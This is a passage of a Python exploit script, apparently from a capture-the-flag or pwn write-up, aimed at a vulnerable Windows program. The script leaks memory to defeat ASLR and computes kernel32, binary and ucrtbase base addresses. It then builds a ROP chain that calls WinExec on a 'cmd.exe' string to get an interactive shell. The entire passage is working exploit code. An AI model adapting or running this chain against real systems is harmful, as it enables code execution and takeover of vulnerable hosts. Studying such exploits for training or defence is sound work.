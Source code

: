 ```python
if DEBUG:
	kernel32 -= 0x17614
else:
	kernel32 -= 0x14de0

print("kernel32: ", hex(kernel32))

leak(0x8)
binary =  int(r.recvline())
print("binary: ", hex(binary))

if DEBUG:
	leak(-46)
else:
	leak(-130)
ucrtbase = int(r.recvline())

print("ucrtbase leak ?", hex(ucrtbase))

if DEBUG:
	ucrtbase = ucrtbase - 0xef4e8
else:
	ucrtbase = ucrtbase - 0x78c7

if DEBUG:
	cmd_str = ucrtbase + 0xd0cb0
	ret = kernel32 + 0x1051
	pop_rcx_ret = ucrtbase + 0x2aa80
	winexec = io.symbols['kernel32.dll']['WinExec']
else:
	cmd_str = ucrtbase + 0xdefd0
	pop_rcx_ret = ucrtbase + 0x2ef50
	ret = ucrtbase + 0x1037
	winexec = kernel32 + 0x1280

pop_rdx_ret4 = kernel32 + 0x68812

print("Pop rcx_ret: ", hex(pop_rcx_ret))
print("Pop rdx_ret4: ", hex(pop_rdx_ret4))

print("ucrtbase: ", hex(ucrtbase))
print("cmd.exe string: ", hex(cmd_str))

'''
for i in range(-200, 0):
	leak(i)
	l =  int(r.recvline())
	print("leak: ", hex(l),  i)
'''

# 33 , 34
write(8, pop_rcx_ret)
write(9, cmd_str)
write(10, ret)
write(11, winexec)
write(12, winexec)

r.recvuntil(b"Do?")
r.sendline(b"1")

r.interactive()
```